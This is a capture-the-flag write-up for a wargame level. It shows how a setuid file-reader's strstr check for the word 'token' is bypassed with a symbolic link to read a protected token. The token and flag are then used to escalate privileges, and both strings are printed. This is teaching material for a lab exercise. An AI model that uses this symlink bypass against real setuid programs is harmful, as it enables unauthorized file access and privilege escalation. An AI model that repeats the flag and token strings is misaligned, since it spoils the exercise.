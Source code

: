 # LEVEL 08

In our home directory, we see an executable with suid/guid, as well as a token file we don't have access to:
        >$ ls -l
        total 16
        -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
        -rw-------  1 flag08 flag08    26 Mar  5  2016 token
        >$ ./level08
        ./level08 [file to read]

If we try with a file we own, the executable displays its content:
        >$ echo 'hi' > /tmp/test && ./level08 /tmp/test
        hi

But it won't work with the token file:
        >$ ./level08 token
        You may not access 'token'

If we execute the program and inspect it with gdb:
        >$ gdb level08
        >$ (gdb) disass main
        0x080485af <+91>:	mov    DWORD PTR [esp+0x4],0x8048793 <---- "token"
        0x080485b7 <+99>:	mov    DWORD PTR [esp],eax
        0x080485ba <+102>:	call   0x8048400 <strstr@plt>
we see that it try to find the substring "token" using strstr function to check if the user try to open the file 'token'. We can bypass this protection with a symbolic link who don't have the string "token" in his absolute path:
        >$ ln -s $(pwd)/token /tmp/link
        >$ ls -l /tmp/link
        lrwxrwxrwx 1 level08 level08 24 Jun  7 20:21 /tmp/link -> /home/user/level08/token

Now if we run the program with this file:
        >$ ./level08 /tmp/link
        quif5eloekouj29ke0vouxean
we use this token as passwrod on 'su flag08' then we get the flag: 25749xKZ8L7DkSCwJkT9dyv6f

Vulnerability:
No check on real user => Privilege escalation via symlink